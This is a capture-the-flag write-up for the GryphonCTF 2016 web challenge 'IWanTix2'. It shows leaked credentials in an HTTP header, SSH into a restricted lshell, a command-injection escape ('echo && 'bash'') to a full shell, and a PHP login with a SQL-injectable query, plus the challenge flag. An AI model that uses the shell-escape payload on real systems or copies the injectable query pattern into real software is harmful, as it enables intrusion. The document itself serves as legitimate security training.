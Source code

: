 # GryphonCTF_2016: IWanTix2

**Category:** Web
**Points:** 30
**Description:**

>Get into the organiser's network and generate tickets so you can sell it at a very low price to our dear admin QR!
Play at http://play.spgame.site:8002
Creator - Kelvin Neo (@deathline75)
Creator - Chen Qiurong (@pc84560895)

## Write-up
This time around, we are given a url that leads to a very snarky reply by the web server.

    Didn't your parents tell you not to look at unauthorised pages?

    Unless you are an administrator, then please login locally.

Opening up Developer's Console in Chrome reveals a delicious header.

    Credentials:Look out for port 8001,user:webadmin,pass:webadmin

Connecting to port 8001 via browser, you get nothing! Or a weird OpenSSH version header anyways. So, we try to connect to it via shell.

    $ ssh webadmin@play.spgame.site -p 8001
    webadmin@play.spgame.site's password: 

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Oct 12 14:55:07 2016 from 103.26.223.115
    You are in a limited shell.
    Type '?' or 'help' to get the list of allowed commands
    webadmin:~$ 

Viola! Well, now we are in a limited shell. What do we do now? Hmm...

    webadmin:~$ ?
    clear  exit  help  history  lpath  lsudo
    webadmin:~$ 

Upon further researching, it appears we are in a limited shell, or lshell, in short. Doing some research on CVEs, we find an [exploit](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=834949) for lshell.

    webadmin:~$ echo && 'bash'
    webadmin@c8664621541c:~$

Woah there!

    webadmin@c8664621541c:/var/www/html$ cat .htaccess 
    Header set Credentials "Look out for port 8001,user:webadmin,pass:webadmin"
    ErrorDocument 403 /403.html
    order deny,allow
    deny from all
    allow from 127.0.0.1 localhost
    webadmin@c8664621541c:/var/www/html$ cat index.php 
    <html>

    <body>
    <p>
        Welcome to the Eason Chan concert ticket generator
        <br />
        Submit the right secret key to get access to it!
    </p>
    <form action='login.php' method='post'>
    Secret Key:<input type='password' name=secret_key> 
    <input type='submit' value='Enter'>
    </body>


    </html>
    webadmin@c8664621541c:/var/www/html$ cat login.php 
    <?php

    $servername = "db-iwantix2";
    $username = "iwantix2";
    $password = "iwantix22";
    $dbname = "iwantix2";

    $conn = new mysqli($servername, $username, $password,$dbname);

    if ($conn->connect_error) {
        die("Connection failed: " . $conn->connect_error);
    } 

    # Get POST Request..
    $secret_key = $_POST['secret_key'];

    $sql = "SELECT * from secret_key where secretkey = '$secret_key'";
    $result = $conn->query($sql);

    if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
            echo 'Nice! You can generate as many tickets as you want now!!<br />';
            echo "Here's your flag! You're most welcome.<br />";
            echo "GCTF{7unn3l_4nd_1nj3c7}";
        }
    } else {
        echo "Hahahahaha! No! You cannot generate ticket!";
    }


    ?>

Epic motherload right there.
Therefore, the flag is `GCTF{7unn3l_4nd_1nj3c7}`.

EDIT: This was actually a bug and team JEAM was awarded 3 points for the discovery and report of this bug. _What misers the organizers are_.
EDIT2: This was supposd to be solved via `ssh webadmin@play.spgame.site -p 8001 -L 1337:localhost:8002`, accessing `localhost:1337` and injecting SQLi code. Well, I think my method was abit more epic.
